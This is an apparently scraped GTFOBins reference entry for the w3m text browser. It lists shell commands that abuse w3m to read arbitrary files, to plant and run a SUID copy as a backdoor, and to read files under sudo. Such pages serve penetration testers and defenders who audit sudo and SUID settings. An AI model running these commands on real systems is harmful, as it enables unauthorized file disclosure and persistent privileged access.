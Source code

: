 # GTFOBin: w3m

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
w3m "$LFILE" -dump
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which w3m) .

LFILE=file_to_read
./w3m "$LFILE" -dump
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo w3m "$LFILE" -dump
```